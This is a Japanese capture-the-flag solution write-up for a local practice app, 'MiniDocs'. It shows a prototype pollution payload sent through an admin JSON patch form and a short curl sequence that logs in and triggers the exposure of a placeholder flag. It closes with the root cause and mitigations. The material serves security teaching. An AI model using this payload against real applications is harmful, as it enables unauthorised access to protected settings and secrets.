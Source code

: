 # MiniDocs — Prototype Pollution

## 解法

### 1) `admin`から管理者画面へ
- **前提**：管理者でログイン済み（IDOR で入手したパスワードを使用）。
- **URL欄**：`http://127.0.0.1:8000/admin`
- 管理画面中部 **「設定変更」** に `patch (JSON)` テキストエリアと **Apply** ボタンがある。

### 2) ヒント
- **bob の勉強メモ**（例：`doc-bo-0002` *「勉強メモ: 配列のマージ処理」*）に **deep merge（deepmerge）** という語が登場し、
  さらに `doc-bo-0004` *「勉強メモ: 機能フラグの管理」* で **`featureFlags` というトップレベルキー**が示唆される。
- **admin の運用メモ**（例：`doc-ad-0002` *「設定っぽいもの」*）には、**画面から設定を入れる**旨と
  **`{"limits":{"maxDoc":100}}` のような JSON 例**が書かれている。
- 管理者画面の**「現在の設定」**にavailableFeatureFlagsに複数使用できる設定があり、その中に**revealSecret**がある。
  Secretとあるので使用怪しい。
- これらから、**設定の“パッチ”は JSON で送り、受理されるルートは `limits` / `featureFlags`** と推測できる。
  ただし **`revealSecret` は UI からは直接いじれない**（＝“システム専用”らしい）ため、**別の経路（PP）**が必要だと分かる。

### 3) 送信ペイロード
```json
{"featureFlags":{"__proto__":{"revealSecret":true}}}
```
- **狙い**：脆弱な `deepMerge` が **`__proto__` をそのまま潜る**ため、`Object.prototype.revealSecret = true` が汚染される。 

### 4) 送信後の画面変化と `<FLAG_PP>` の確認箇所
1. 管理画面下部 **「現在の設定」** の内容に注目：  
   - `secretPreview` が **`"(hidden)" → "<FLAG_PP>"`** へ変化している。  
   - ここに `<FLAG_PP>` が可視化される。

### つまずきポイント / 代替ルート
- **直接指定は無効**：`{"featureFlags":{"revealSecret":true}}` は受理されても**削除**され効果なし。`__proto__` 経由のみ成功。

---

## 付録：curl 参考（数行）
> 先に **admin** でログインして Cookie を取得しておくこと。フラグの実文字列は表示しない。

```bash
# 1) admin でログイン
curl -s -c c.txt -d 'user=admin&pass=<hidden>' http://127.0.0.1:8000/login > /dev/null

# 2) __proto__ 汚染を JSON で適用（/admin/feature-flags）
curl -s -b c.txt -H 'Content-Type: application/json'   -d '{"featureFlags":{"__proto__":{"revealSecret":true}}}'   http://127.0.0.1:8000/admin/feature-flags > /dev/null

# 3) Diagnostics で secretPreview の露出を確認
curl -s -b c.txt http://127.0.0.1:8000/admin | grep -A2 '"secretPreview"'   # => "<FLAG_PP>"
```

---

## 根本原因と対策（Prototype Pollution）
- **原因**：再帰マージ `deepMerge` が **`__proto__`/`prototype`/`constructor`** を**ブロックせず**に潜るため、`Object.prototype` が汚染される。UI 側も `ownProperty` 判定をせず参照。  
- **対策（最小）**：
  - ① マージ前に **危険キー拒否**（`['__proto__','prototype','constructor']` を除去）。  
  - ② ライブラリ利用時は **proto 汚染無効化オプション**を有効化。  
  - ③ 参照側も **`Object.hasOwn` / `hasOwnProperty`** で自前プロパティのみ採用する二重防御。
